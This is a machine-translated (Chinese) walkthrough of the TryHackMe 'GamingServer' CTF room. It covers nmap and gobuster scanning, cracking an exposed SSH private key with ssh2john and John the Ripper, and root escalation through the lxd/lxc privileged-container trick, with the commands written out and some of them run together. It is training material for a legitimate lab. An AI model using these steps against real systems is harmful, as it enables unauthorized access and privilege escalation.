










# TryHackMe: GamingServer 报道

> 原文：<https://infosecwriteups.com/tryhackme-gamingserver-write-up-53c64f995200?source=collection_archive---------2----------------------->


初学者 CTF 挑战赛

这是一个 THM 初级挑战 [GamingServer](https://tryhackme.com/room/gamingserver) 的特写。没有任何延迟，让我们连接到我们的 THM OpenVPN 网络，并启动我们的机器。

## 任务 1 Boot2Root

1.  使用 Nmap 扫描您的网络。

```
nmap -A <machine-ip>
```



Nmap 扫描结果

2.有两个开放的端口。让我们看看 HTTP(80)端口中有什么。


http 页面

3.看起来像一个虚拟页面。但是我们可以通过 inspect 元素识别出一个名字“john”。所以让我们使用 gobuster，找出这个网站隐藏的扩展。

```
gobuster dir -u http://<machine-ip> -w 'wordlist'
```



Gobuster 扫描结果

4.几个扩展名是可疑的“robots.txt”、“secret”、“uploads”。让我们逐一探索。



秘密分机



上传扩展

5.我们可以找到一个列表文件，其中包含各种单词和一个 RSA 私钥，可用于 ssh 破解。

6.使用 ssh2john 让我们破解私钥并找到密码短语。

```
python3 ssh2john.py id_rsa > hash
```


ssh2john

7.得到散列后，使用 john 让我们用“dict.lst”单词表找到密码短语。

```
john hash dict.lst
```



开膛手约翰扫描

8.现在我们得到了密码短语。让我们打开 ssh 并获取标志。

```
ssh -i id_rsa john@<machine-ip>
```

9.我们一打开外壳，就可以看到“user.txt”标志。



用户标志

10.现在，让我们得到根旗。因为我们不是根用户。我们无法进入根目录。我们必须提升我们的特权。

11.在查看用户时，我发现可以通过 lxd 权限提升来对外壳进行 rooted。



用户组

12.跟随这个步骤的是[这个](https://github.com/saghul/lxd-alpine-builder.git)。

```
git clone [https://github.com/saghul/lxd-alpine-builder.git](https://github.com/saghul/lxd-alpine-builder.git)cd lxd-alpine-buildersudo ./build-alpine
```

13.现在将压缩文件(alpine-v 3.12-x86 _ 64–2020 1 0 2 7 _ 1655 . tar . gz)传输到 machine shell。



14.请执行以下步骤。

```
lxc image import alpine-v3.12-x86_64-20201027_1655.tar.gz --alias=imagelxc init image hacked -c security.privileged=truelxc config device add hacked mydevice disk source=/ path=/mnt/root recursive=truelxc start hackedlxc exec hacked /bin/sh
```



15.嘣！！！我们现在是根用户。进入/mnt/root/root 目录获取根标志。



根标志

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和我联系。